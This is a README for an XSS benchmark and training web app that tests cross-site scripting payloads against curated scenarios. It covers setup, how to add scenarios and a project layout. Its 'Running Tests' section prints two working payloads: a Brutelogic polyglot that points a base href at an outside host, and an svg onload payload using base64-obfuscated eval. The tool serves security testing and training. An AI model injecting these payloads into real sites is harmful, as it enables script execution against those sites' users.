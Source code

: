 # bXSS Benchmark

![alt text](img/-bxss--is-centered-and-dark-blue.png)

## Objective

**bXSS Benchmark** is a web application designed to evaluate and benchmark the effectiveness of XSS (Cross-Site Scripting) payloads against a variety of real-world scenarios. It provides a structured environment for security researchers and developers to test, compare, and analyze payloads in different contexts, helping to improve web application security.

---

## Features

- **Scenario-Based Testing:** Test payloads against a curated set of XSS scenarios.
- **Payload Management:** Add, edit, and manage XSS payloads.
- **Automated and Headless Testing:** Run tests automatically in headless mode.
- **Result Tracking:** View and analyze the effectiveness of payloads.
- **Extensible:** Easily add new scenarios via YAML files.
- **Training:** Practice your xss skills in different contexts.

---

## Installation

### Prerequisites

- [Docker](https://www.docker.com/) (optional, for containerized setup)

### Clone the Repository

```bash
git clone https://github.com/your-org/xss-benchmark.git
cd xss-benchmark
```


## Running the Application

```bash
docker compose up --build
sudo echo 'xsslab_app 127.0.0.1' >> /etc/hosts
```

The application will be available at [http://xsslab_app:9090](http://xsslab_app:9090).

---

## Running Tests

go to webapp, in the home page add your payload and run a benchmark.

Payloads examples:

```html 
Brutelogic bxss
JavaScript://%250Aalert?.(1)// '/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--> </Title/</Style/</Script/</textArea/</iFrame/</noScript> \74k<K/contentEditable/autoFocus/OnFocus= /*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->

Basic bxss
"><svg/onload=eval(atob('YWxlcnQoImJ4c3MiKQ=='))>// 

```

### Manual tests
You want to improve your payload and modify it manually?
1. Go to the Scenarios page
2. Click on the scenario you want to test.
3. In the url add "?payload=" followed by your payload
4. Press enter :)

---

## Adding a New Scenario

1. **Edit the Scenario YAML File**

   Add your new scenario to the main YAML file, e.g. `app/scenarios/TBD/scenarios.yaml`, following the existing format.

2. **Extract Scenario Files**

   Use the provided script to split scenarios into individual YAML files:

   ```bash
   bash scripts/extract_scenarios.sh
   ```

   This will generate scenario files in `app/scenarios/definitions/`.

3. **Verify Scenario Loading**

   The application automatically loads scenarios from the definitions directory. Restart the app if necessary.

4. **Test Your Scenario**

   - Visit `/scenarios` in the web UI to see your new scenario.
   - Test with different payloads.

---

## Directory Structure

```
app/
  controllers/
  models/
  scenarios/
    definitions/
    TBD/
  templates/
  static/
  app.py
scripts/
  extract_scenarios.sh
tests/
README.md
requirements.txt
```

---

## Contributing

- Fork the repository and create a feature branch.
- Submit pull requests with clear descriptions.
- Follow PEP8 and project-specific code style.

---

## License

[MIT License](LICENSE)

---

## Contact

For questions or support, please open an issue or contact the maintainer.


## TBD
For js_snippet insert the payload in a custom js file. Because for brutelogic xss gym, there is redundancy
Brutelogic filtered is probably when quote are backslashed
add scenario : script src in head section 
